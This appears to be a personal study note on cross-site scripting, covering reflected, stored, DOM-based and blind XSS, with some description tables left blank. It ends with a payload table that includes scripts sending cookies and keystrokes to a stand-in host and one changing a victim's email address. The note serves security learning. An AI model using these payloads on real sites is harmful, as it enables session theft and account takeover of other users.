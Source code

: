 Cross-Site Scripting is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Types of XSS

| XSS Type | Description |
| --- | --- |
| Reflected XSS | |
| Stored XSS | |
| DOM-Based XSS | |
| Blind XSS | |

## Reflected XSS

Reflected XSS occurs when an attacker injects malicious scripts into a web application that are immediately reflected back to a user without proper validation or sanitization

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/8e3bffe500771c03366de569c3565058.png)

* Relies on tricking a user into clicking a specially crafter link or submitting a malicious form, which then executes the malicious script in their browser

| Reflected XSS Method | Description |
| --- | --- |
| Parameters in the URL Query String | |
| URL File Path | |
| HTTP Headers | |

## Stored XSS

Stored XSS is when a malicious script that was injected by an attacker is permanently stored on the target web server (Ex: *Database*, *Message forum*, *Comment field*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/cc2566d297f7328d91bc8552f902210e.png)

* When other users view the affected content, the malicious script is served and executed in their browsers

| Stored XSS Method | Description |
| --- | --- |
| Comments | |
| User Profile Information | |
| Website Listings | |
| Forms | |

## DOM-Based XSS

DOM-Based XSS occurs when the client-side script of a web application manipulates the Document Object Model in an unsafe way based on user input

* The JavaScript execution happends directly and entirely on the client-side
* No new pages aren't loaded and no data is submitted to the back end
* The JavaScript code acts on input or user interaction

| DOM-Based XSS Method | Decription |
| --- | --- |
| Unsafe JavaScript Methods | (Ex: *eval()*) |

## Blind XSS

Blind XSS is when a threat actor injects malicious scripts into a web application without immediately seeing the results

* Useful when the injected script is stored and later executed in a different context or viewed by a subject that has access to a part of the application that the attacker can't directly see
* Similar to a Stored XSS

| Stored XSS Method | Decription |
| --- | --- |

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Payloads

| XSS Payload | Purpose | Description |
| --- | --- | --- |
| <script>alert("XSS");</script> | Proof of Concept | Demonstrates that a XSS is possible on a website by causing an alert box to pop up |
| <script>fetch('https://example.com/steal?cookie=' + btoa(document.cookie));</script> | Session Stealing | Takes the target's cookie, encodes it in base64 and then post it to a website under your control |
| <script>document.onkeypress = function(e) { fetch('https://example.com/log?key=' + btoa(e.key) );}</script> | Key Logger | Anything typed on the webpage will be forwarded to a website under your control |
| <script>user.changeEmail('attacker@hacker.email');</script> | Change a User's Email Address | Changes the logged in user's email address |
